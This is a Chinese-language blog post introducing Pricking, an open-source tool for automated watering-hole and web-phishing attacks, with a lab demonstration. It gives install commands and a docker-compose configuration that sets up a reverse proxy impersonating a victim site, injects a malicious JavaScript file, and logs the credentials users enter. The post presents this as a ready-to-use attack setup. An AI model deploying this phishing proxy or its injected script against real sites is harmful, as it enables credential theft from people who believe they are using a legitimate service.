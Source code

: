 ```yaml
---
date: "2021-02-18T00:00:00Z"
description: Pricking 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍Pricking项目的安装与使用。
title: Pricking 项目（一） ：使用介绍
url: /archivers/2021-02-18/1
---
```


> 视频介绍：[bv1SK4y1n7xx](https://www.bilibili.com/video/bv1SK4y1n7xx)

## 0x00 安装项目

[Pricking](https://github.com/Rvn0xsy/Pricking) 是一个自动化部署水坑和网页钓鱼的开源项目，本文介绍[Pricking](https://github.com/Rvn0xsy/Pricking) 项目的安装与使用。

```
$ git clone https://github.com/Rvn0xsy/Pricking
$ cd Pricking
$ docker-compose up -d
```

## 0x01 例子演示

环境：

- Arch Linux 64Bit 127.0.0.1 攻击机（反向代理服务器）
- Kali Linux 64Bit 172.16.42.135 受害服务器
- 攻击者域名 proxy.payloads.online -> 127.0.0.1

假设受害服务器（172.16.42.135 ）有一个站点：

![2021-02-18-00-47-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6b41bbce9503d7a27873e067c0121213.png)

需要用户输入正确的账号密码才可以访问内部的功能。

修改docker-compose.yml:

```yml
version: '3'
services:
  nginx:
    image: rvn0xsy/pricking:v1
    ports:
     - "80:80"
    volumes:
     - ./:/tmp/pricking
     - /etc/hosts:/etc/hosts # 由于是测试，所以修改的是hosts充当DNS服务器，因此需要映射hosts文件。
    environment:
      PROXY_PASS_HOST: proxy.payloads.online
      PROXY_SOURCE_HOST: 172.16.42.135
      NGINX_LISTEN_PORT: 80
      EVIL_JS_URI: b026324c6904b2a9cb4b88d6d61c81d1
```

![2021-02-18-00-52-45](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2afb4b2a080c085b332acf5e5b356187.png)

此时访问http://proxy.payloads.online 就等同于访问受害服务器（172.16.42.135 ）。

![2021-02-18-00-53-45](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/25c6eeb1a9ac59b47e0ae9d92e132558.png)

当用户输入凭证或访问水坑网站，在[Pricking](https://github.com/Rvn0xsy/Pricking)项目目录中会生成`access.log`：

![2021-02-18-00-55-35](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c0d9624a54036a0c6a92a25e22bd721a.png)

